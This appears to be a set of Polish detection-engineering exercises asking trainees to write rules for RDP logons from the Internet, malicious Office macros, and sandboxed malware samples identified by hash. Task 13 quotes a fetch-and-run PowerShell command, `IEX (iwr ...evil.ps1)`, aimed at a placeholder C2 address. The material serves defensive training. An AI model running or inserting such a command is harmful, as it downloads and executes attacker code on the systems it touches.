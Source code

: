 #### Zadanie 12
Na podstawie informacji od partnera wiemy, że klaster aktywności "Dirty Blizzard" poszukuje w Internecie serwerów z wystawionym protokołem RDP. Partnerzy informują, że wśród ofiar mogą być organizacje związane z wojskiem.
Twoim zadaniem jest napisanie reguły bezpieczeńśtwa, która wykryje udane logowanie na serwer z uzyciem protokołu RDP z Internetu.

#### Zadanie 13
Ze źródła którego nie możemy ujawnić dowiedzieliśmy się że klaster aktywności "Sunny Boys" wysyła do naszych pracowników z użyciem komunikatora Signal złośliwe pliki związane z pakietem office: Word, PowerPoint oraz Excel. Złośliwe pliki mają starszy format, kompatybilny z 97-2003. Wysyłane pliki mają nazwę w formacie "Dekret_XXXX", gdzie XXXX jest losową liczbą. Pliki te zawierają złośliwe makro VBS, które powoduje uruchomienie automatycznie PowerShella z parametrami `IEX (iwr 'http://ADRES_IP_C2/evil.ps1')`. Nie wiemy co dalej robi pobrany skrypt PowerShell.

#### Zadanie 14
Przeanalizuj [raport nr. 1](https://tria.ge/241015-l98snsyeje/behavioral2): 
SHA256: 939f509a8edc6b9da103fbcebe85630671ed591dd9e40243da37559e10dcfd80, platforma TRIA.GE

Zidentyfikuj możliwości zaimplementowania reguł bezpieczeństwa wykrywających TTP implementowane przez próbkę. Skup się na TTP dotyczących systemu Windows.
Zaimplementuj zapytania, które według Ciebie są najistotniejsze.

#### Zadanie 15
Przeanalizuj [raport nr. 2](https://tria.ge/241102-1hhvhawenh/behavioral1):
SHA256: bdc7b917477bb49af7a5b06e5d9ed20e08fed25944f297a6b36a50d03d8a5777, platforma TRIA.GE

Zidentyfikuj możliwości zaimplementowania reguł bezpieczeństwa wykrywających TTP implementowane przez próbkę. Skup się na TTP dotyczących systemu Windows.
Zaimplementuj zapytania, które według Ciebie są najistotniejsze.
